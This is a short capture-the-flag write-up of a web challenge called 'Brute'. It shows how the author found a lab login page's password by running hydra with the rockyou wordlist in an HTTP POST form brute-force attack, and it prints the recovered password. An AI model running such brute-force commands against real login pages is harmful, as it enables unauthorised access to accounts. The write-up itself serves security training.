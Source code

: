# Brute

## Overview

- Overall difficulty for me: Very easy

**In this challenge, we can spawn a docker instance:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027082238.png)

## Find the flag

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027082301.png)

**Looks like we need to brute force the login page!**

**To do so, I'll use `hydra`:**

When we typed an incorrect password, it shows us **`Incorrect Password!` error**, and **the POST request data is `password=<password_here>`.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027082418.png)

**Armed with this information, we can use `hydra` to brute force it:**
```
┌──(root🌸siunam)-[~/ctf/GuidePoint-Security-Oct27-2022/Web/Brute]
└─# hydra -l 'any_user' -P /usr/share/wordlists/rockyou.txt 10.10.100.200 -s 37825 http-post-form "/:password=^PASS^:Incorrect Password"
[...]
[37825][http-post-form] host: 10.10.100.200   login: any_user   password: princess13
```

**Find the password! Let's login!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027083137.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027083144.png)

We found the flag!

# Conclusion

What we've learned:

1. Brute Forcing HTTP Login Page via `hydra`